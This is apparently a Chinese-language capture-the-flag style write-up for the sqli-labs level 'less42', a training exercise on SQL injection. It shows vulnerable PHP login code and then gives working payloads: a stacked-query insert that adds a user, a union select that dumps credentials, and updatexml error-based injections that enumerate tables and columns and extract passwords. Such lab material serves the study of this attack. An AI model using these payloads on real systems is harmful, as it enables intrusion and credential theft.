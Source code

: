 ```yaml
---
title: less42
url: https://www.yuque.com/u29002979/ep2zrx/pctnzgpgmpd94myd
---
```


```bash
$username = mysqli_real_escape_string($con1, $_POST["login_user"]);
$password = $_POST["login_password"];

$sql = "SELECT * FROM users WHERE username='$username' and password='$password'";
if (@mysqli_multi_query($con1, $sql))
```

这关的注入点在密码登陆处，同时也存在堆叠注入 , 单引号闭合 <a name="I3o7P"></a>

# 堆叠注入

`';insert into users values(98,'zhong','zhong')#`

`-1' union select 1,2,(select group_concat(username,0x7e,password)from users)--+`

<a name="jykDm"></a>

# 注入点检查

`login_user=admin'&login_password=admin'`

> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''admin''' at line 1

<a name="Os6ES"></a>

# 报错注入

```bash
查询数据库表
-1' or updatexml(1,concat(0x7e,(select database()),0x7e),1) -- +
爆破数据表
-1' or updatexml(1,concat(0x7e,(select group_concat(table_name)from information_schema.tables where table_schema=database()),0x7e),1) -- +
爆破字段名
-1' or updatexml(1,concat(0x7e,(select  group_concat(column_name)from information_schema.columns where table_schema=database() and table_name='users'),0x7e),1) -- +
爆破字段
login_password=-1' or updatexml(1,concat(0x7e,(select group_concat(username,0x7e,password) from users limit 0,1),0x7e),1) -- +
```
